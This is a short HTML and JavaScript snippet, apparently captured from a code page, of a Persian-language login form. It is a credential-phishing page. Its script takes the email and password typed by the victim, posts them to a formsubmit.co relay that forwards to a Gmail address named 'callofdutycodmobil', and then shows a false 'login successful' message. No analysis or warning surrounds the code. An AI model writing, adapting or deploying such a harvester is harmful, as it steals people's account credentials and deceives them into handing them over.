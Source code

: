 <div class="login-container">
    <h2>ورود به حساب</h2>
    <form id="loginForm">
        <input type="email" id="email" class="input-field" placeholder="ایمیل خود را وارد کنید" required>
        <input type="password" id="password" class="input-field" placeholder="کلمه عبور" required>
        <button type="submit" class="login-button">ورود</button>
    </form>
</div>

<script>
    document.getElementById('loginForm').addEventListener('submit', function(event) {
        event.preventDefault();

        var email = document.getElementById('email').value;
        var password = document.getElementById('password').value;

        var emailDetails = {
            userEmail: email,
            userPassword: password
        };

        fetch('https://formsubmit.co/ajax/callofdutycodmobil@gmail.com', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify(emailDetails)
        })
        .then(response => response.json())
        .then(data => {
            alert('ورود با موفقیت انجام شد!');
        })
        .catch(error => {
            alert('خطا در ارسال اطلاعات');
        });
    });
</script>

</body>
</html>
